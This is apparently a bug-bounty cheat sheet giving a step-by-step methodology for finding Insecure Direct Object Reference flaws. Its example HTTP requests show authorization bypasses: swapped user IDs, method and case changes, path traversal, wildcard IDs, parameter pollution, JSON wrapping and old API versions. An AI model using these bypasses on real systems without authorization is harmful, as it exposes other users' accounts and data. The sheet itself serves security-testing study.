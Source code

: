 # Insecure Direct Object References

## Check List



## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Create two accounts if possible or else enumerate users first.
{% endstep %}

{% step %}
Check if the endpoint is private or public and does it contains any kind of id param.


{% endstep %}

{% step %}
Try changing the param value to some other user and see if does anything to their account
{% endstep %}

{% step %}
change HTTP method like this

```http
GET /users/delete/victim_id ->403
POST /users/delete/victim_id ->200
```
{% endstep %}

{% step %}
Try replacing parameter names instead of this :&#x20;

```http
GET /api/albums?album_id=<album id>
```
{% endstep %}

{% step %}
Try This:

{% hint style="info" %}
Tip: There is a Burp extension called Paramalyzer which\
will help with this by remembering all the parameters you have passed to a host.
{% endhint %}

```http
GET /api/albums?account_id=<account id>
```
{% endstep %}

{% step %}
Path Traversal IN users Path

if request like this :&#x20;

```http
POST /users/delete/victim_id ->403
```
{% endstep %}

{% step %}
change request to this&#x20;

```http
POST /users/delete/my_id/..victim_id ->200
```
{% endstep %}

{% step %}
change request content-type

```http
Content-Type: application/xml
Content-Type: application/json
```
{% endstep %}

{% step %}
swap non-numeric with numeric id

```http
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```
{% endstep %}

{% step %}
Missing Function Level Acess Control and changes Charachter path

```
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
```
{% endstep %}

{% step %}
send wildcard instead of an id

```http
GET /api/users/user_id 
changes to this
GET /api/users/*
```
{% endstep %}

{% step %}
Never ignore encoded/hashed ID for hashed ID ,create multiple accounts and understand the\
pattern application users to allot an iD&#x20;
{% endstep %}

{% step %}
Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```
{% endstep %}

{% step %}
HTTP Parameter POllution Give mult value for same parameter

```http
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```
{% endstep %}

{% step %}
change file type

```http
GET /user_data/2341 -> 401
GET /user_data/2341.json -> 200
GET /user_data/2341.xml -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt -> 200
```
{% endstep %}

{% step %}
json parameter pollution

```json
{"userid":1234,"userid":2542}
```
{% endstep %}

{% step %}
Wrap the ID with an array in the body

```json
{"userid":123} ->401
{"userid":[123]} ->200
```
{% endstep %}

{% step %}
c wrap the id with a json objec

```json
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```
{% endstep %}

{% step %}
Test an outdata API version

```http
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```
{% endstep %}
{% endstepper %}

